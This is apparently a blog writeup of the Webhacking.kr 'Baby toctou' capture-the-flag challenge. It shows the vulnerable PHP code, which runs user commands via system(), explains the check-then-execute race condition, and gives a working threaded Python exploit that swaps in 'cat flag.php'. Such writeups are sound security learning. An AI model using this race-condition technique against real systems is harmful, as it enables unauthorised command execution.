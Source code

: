 ```yaml
---
layout: post
title: "[Webhacking.kr] Baby toctou 🍼 writeup"
categories: hacking writeup web
---
```


## Introduction

I decided to give myself a try on this challenge which was solved my only 42 people at the time. I thought it would be a challenging (and interesting) one. In the end this one was not that hard, but surely an interesting one.

## First look

```php
<?php
  // system($_GET['q']);
  if(!preg_match('/^[a-f0-9]+$/',$_COOKIE['baby_toctou'])){ $newCookie = uniqid().rand(1,999999999); setcookie("baby_toctou",$newCookie); $_COOKIE['baby_toctou'] = $newCookie; }
  $cmd = $_GET['q'];
  $myfile = fopen("user/{$_COOKIE['baby_toctou']}.sh", "w") or die("Unable to open file!");
  fwrite($myfile, $cmd);
  fclose($myfile);
  if(($cmd === "ls") || ($cmd === "cat api.php") || ($cmd === "cat index.php")){ // valid check
    sleep(1); // my server is small and weak
    system("sh ./user/{$_COOKIE['baby_toctou']}.sh");
  }
  else{
    echo <<<HELP
only "ls", "cat api.php", "cat index.php" allowed
HELP;
  }
?>
```

This `api.php` simply writes the command you want to execute into a file named by the `baby_toctou` cookie. After writing the file, it checks the command before executing the file.
Nothing's wrong with the `if` check, so what could go wrong?

## Race condition

Now what if we change the content of the file after the `if` condition successes? We have a generously 1 second for that.

But how can we? Isn't the program running top-down?

What if we have 2 people P1 and P2, one executes, and one edits the content?
Here's the idea:

| Step | P1                              | P2                                |
| ---- | ------------------------------- | --------------------------------- |
| 1    | Writes `ls` to the file         | -                                 |
| 2    | Passes the `if` check           | -                                 |
| 3    | Waits 1 second before executing | Writes `cat flag.php` to the file |
| 4    | Executes the file               | Fails the `if` check              |

Easy!

## Exploitation

There's not much to talk about this, but I'll post my code here as a reference.

```python
import requests, threading, time

def send(cmd):
    cookies = {
        'PHPSESSID': 'ofq76t3822i5ee1plskj2bafmt',
        'baby_toctou': 'abc91', # just a random string, anything will work
    }

    headers = {
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'keep-alive',
        # 'Cookie': 'PHPSESSID=ofq76t3822i5ee1plskj2bafmt; baby_toctou=abc91',
        'DNT': '1',
        'Referer': 'http://webhacking.kr:10019/',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36',
    }

    params = {
        'q': cmd,
    }

    response = requests.get('http://webhacking.kr:10019/api.php', params=params, cookies=cookies, headers=headers, verify=False)
    print(response.text)

p1 = threading.Thread(target=send, args=('ls',))
p2 = threading.Thread(target=send, args=('cat flag.php',))


print('[info] getting in ...')

p1.start()
time.sleep(0.25)
p2.start()
```

## Conclusion

This challenge helped me develop my sense of a non-linear attack. Always think of a multi-user situation!

